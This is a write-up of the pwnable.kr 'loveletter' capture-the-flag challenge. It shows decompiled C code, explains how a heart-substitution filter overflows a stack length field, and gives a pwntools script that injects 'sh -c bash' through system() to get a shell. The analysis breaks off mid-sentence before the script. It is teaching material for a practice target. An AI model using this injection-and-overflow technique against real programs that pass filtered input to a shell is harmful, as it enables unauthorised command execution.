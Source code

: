 # Pwnable.kr loveletter CTF Writeup

## Problem Description
The code of the program is:
### main
```c
080493a5  int32_t main(int32_t argc, char** argv, char** envp)

080493ac      void* const __return_addr_1 = __return_addr
080493b4      int32_t* var_14 = &argc
080493cb      char** argv_1 = argv
080493d1      void* gsbase
080493d1      int32_t eax_1 = *(gsbase + 0x14)
080493ed      memset(&loveletter, 0, 0x100)
080493ff      size_t eax_3 = strlen(epilog)
08049414      size_t eax_5 = strlen(prolog)
08049429      printf(format: &data_804a021)
08049449      void buf
08049449      fgets(&buf, n: 0x100, fp: *stdin)
08049449      
08049470      if (*(&buf + strlen(&buf) - 1) == 0xa)
08049487          *(&buf + strlen(&buf) - 1) = 0
08049487      
08049499      puts(str: &data_804a03c)
080494ab      protect(&buf)
080494bd      size_t eax_12 = strlen(&buf)
080494d2      puts(str: &data_804a068)
080494fb      memcpy(&loveletter + zx.d(idx), prolog, eax_5)
08049511      idx += eax_5.w
08049539      memcpy(&loveletter + zx.d(idx), &buf, eax_12)
0804954f      idx += eax_12.w
08049577      memcpy(&loveletter + zx.d(idx), epilog, eax_3)
0804958d      idx += eax_3.w
0804959e      puts(str: &data_804a08c)
080495a6      gid_t egid = getegid()
080495b7      setregid(rgid: getegid(), egid)
080495c9      system(line: &loveletter)
080495d9      *(gsbase + 0x14)
080495d9      
080495e0      if (eax_1 == *(gsbase + 0x14))
080495f1          return 0
080495f1      
080495e2      __stack_chk_fail_local()
080495e2      noreturn
```

### protect
```c
08049216  int32_t protect(char* arg1)

08049235      void* gsbase
08049235      int32_t eax_1 = *(gsbase + 0x14)
08049240      int32_t var_127
08049240      __builtin_strncpy(dest: &var_127, src: "#&;`\'\"|*?~<>^()[]{}$\\,", n: 0x17)
08049240      
08049376      for (int32_t i = 0; strlen(arg1) u> i; i += 1)
08049350          for (int32_t j = 0; strlen(&var_127) u> j; j += 1)
080492c4              if (arg1[i] == *(j + &var_127))
080492e2                  void var_110
080492e2                  strcpy(&var_110, &arg1[i + 1])
080492f8                  *(arg1 + i) = 0xa599e2
08049308                  size_t eax_13 = strlen(&var_110)
08049337                  memcpy(&arg1[strlen(arg1)], &var_110, eax_13)
08049337      
08049397      if (eax_1 == *(gsbase + 0x14))
080493a4          return eax_1 - *(gsbase + 0x14)
080493a4      
08049399      __stack_chk_fail_local()
08049399      noreturn
```

when running, we see this:
```bash
loveletter@ubuntu:~$ ./loveletter
♥ My lover's name is : itamar
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echos in my mind...
I love itamar very much!
```
The program gets an input and replace every character that is in the "blacklist" (can cause command injection) with an heart. we need to get a shell and read the flag.

## Analysis
The first thing i saw is that there is a bug in the `protect()` function. the bug is when the program replaces a character with an heart, it doesnt put a null terminator at the end. 
The bug is on this line:
`memcpy(&arg1[strlen(arg1)], &var_110, eax_13)`.
it should be:
`memcpy(&arg1[strlen(arg1)], &var_110, eax_13 + 1)`

in addition, each character is one bytes, however the heart is 3 bytes. that means that when replace a charater witg an heart, it makes the input string longer (by 2 bytes). We can also see that the max length of the input is 0x100 (256 characters), and its located on the stack. that means that we can use the fact that the `protect()` fucntion makes our input buffer longer to preform buffer overflow in the stack. when we look in the `main()` function we can see that its stack looks like this:
```
eax_3 (epilog length) - 4 bytes
----------------------
eax_5 (prolog length) - 4 bytes
----------------------
buf[0x100]            - 256 bytes
```

My first idea was to overflow eax_5 (prolog length) with 0, so `loveletter` will start with my input and than i can call a shell using: `sh -c bash `. thats because this way i can make the program to ignore to rest of the input (that is needed for the buffer overflow). thats because this way i give to `sh` two arguments: `bash` (a shell that i can read the flag from it) and the rest of the input. `sh` will only use the first argument and ignore the second.

However, there is a problem. in order to overflow eax_5 with 0, i needed to program to do this:
``

## Exploit Code
```python
from pwn import *

context.log_level = 'info'

session = ssh(user='loveletter', host='pwnable.kr', port=2222, password='guest')
p = session.process(['nc', '0', '9034'])

payload = b"nv sh -c bash "
payload += b"A" * (253 - len(payload))
payload += b"#"
payload += b"\x01"

print(payload)

p.sendline(payload)
p.interactive() # cat flag
```


